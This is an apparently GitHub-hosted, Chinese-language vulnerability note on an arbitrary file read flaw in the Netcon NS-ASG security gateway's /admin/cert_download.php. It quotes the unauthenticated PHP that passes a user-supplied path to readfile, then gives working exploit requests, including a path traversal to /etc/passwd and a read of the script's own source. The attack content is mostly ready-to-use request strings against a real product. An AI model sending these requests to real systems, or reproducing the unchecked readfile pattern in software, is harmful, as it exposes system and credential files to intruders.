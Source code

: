 # 

# 网康 NS-ASG安全网关 cert_download.php 任意文件读取漏洞

## 漏洞描述

网康 NS-ASG安全网关 cert_download.php 文件存在任意文件读取漏洞

## 漏洞影响

```
网康 NS-ASG安全网关
```

## 网络测绘

```
网康 NS-ASG安全网关
```

## 漏洞复现

出现漏洞的文件为 **/admin/cert_download.php**

```php
![2](C:\Users\47236\Desktop\2.png)<?php
$filename = substr($file,strpos('certs/',$certfile)+6);
//文件的类型
header('Content-type: application/pdf');
//下载显示的名字
header('Content-Disposition: attachment; filename="'.$filename.'"');
readfile("$certfile");
exit();
?>
```

此文件没有对身份进行校验即可下载任意文件

```plain
/admin/cert_download.php?file=test.txt&certfile=../../../../../../../../etc/passwd
```

![](./images/202202162231024.png)

```plain
/admin/cert_download.php?file=test.txt&certfile=cert_download.php
```

![](./images/202202162234357.png)
